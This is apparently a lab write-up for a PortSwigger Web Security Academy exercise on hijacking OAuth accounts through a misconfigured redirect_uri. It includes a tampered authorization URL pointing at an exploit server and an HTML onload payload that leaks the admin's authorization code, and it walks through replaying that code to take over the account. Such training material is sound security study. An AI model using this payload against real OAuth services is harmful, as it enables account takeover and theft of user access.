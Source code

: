 
# 2 - OAuth account hijacking via redirect_uri

This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: wiener:peter.

https://portswigger.net/web-security/oauth


---

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/1.png)

<br>

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/2.png)

https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/3.png)

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/4.png)

https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email


https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net&response_type=code&scope=openid%20profile%20email

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/5.png)

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/6.png)

Follow redirection:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/7.png)

Access logs:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/8.png)

Payload to open the link:
<body onload="window.open('https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net/&response_type=code&scope=openid%20profile%20email')">

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/9.png)


Deliver exploit to victim:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/10.png)
  
Log out, log in and replace the code with this one:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/11.png)

After the last request, you get admin access:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/12.png)

Admin panel:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/14.png)
  
![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/15.png)
